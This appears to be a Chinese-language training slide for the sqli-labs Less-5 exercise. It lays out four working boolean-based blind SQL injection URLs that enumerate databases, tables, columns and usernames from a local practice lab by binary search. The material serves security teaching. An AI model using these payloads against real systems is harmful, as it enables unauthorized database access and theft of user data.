

# Less-5 bool型-2
完整注入流程：
1. http://127.0.0.1/sqli/Less-5/?id=1’ and  ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) >100--+ 通过二分法猜解得到所有的库,红色为可变参数。
2. http://127.0.0.1/sqli/Less-5/?id=1’ and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1))>1--+  再次通过二分法可猜解得到security下的所有表。其中，红色为可变参数。
3. http://127.0.0.1/sqli/Less-5/?id=1’ and ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 1,1),1,1)) >1 --+  通过二分法可猜解users内的字段，其中红色为可变参数。
4. http://127.0.0.1/sqli/Less-5/?id=1’  and ascii(substr((select username from security.users limit 1,1),1,1))>1--+继续猜解即可得到字段内的值。